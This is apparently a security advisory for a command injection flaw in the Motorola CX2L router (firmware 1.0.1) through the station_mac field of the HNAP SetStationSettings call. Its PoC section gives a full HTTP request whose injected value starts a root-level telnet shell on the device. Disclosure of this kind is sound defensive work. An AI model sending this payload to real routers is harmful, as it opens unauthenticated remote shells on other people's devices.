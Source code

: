 # Motorola Vulnerability

Vendor:Motorola

Product:CX2L

Version:1.0.1

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in Motorola router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetStationSettings` function, `station_mac` is directly passed by the attacker, so we can control the `station_mac` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

As you can see here, in `sub_402D74` function, the initial input has not checked and cause command injection.

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `station_mac` as **`telnetd${IFS}-l${IFS}sh`** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.51.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetStationSettings"
HNAP_AUTH: 7685A5A7EED92D008A7C948933F10A42 1749733717058
Content-Length: 126
Origin: http://192.168.51.1
Connection: close
Referer: http://192.168.51.1/Devices.html
Cookie: work_mode=router; uid=nquJqdGz; PrivateKey=91D60D69571026EEB1519455933EC33A; timeout=6

{"SetStationSettings":{"station_mac":"`telnetd${IFS}-l${IFS}sh`","station_ext_name":"pjqwudi","station_access_enable":"deny"}}
```



## Result

The target router has enabled the telnet service.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>
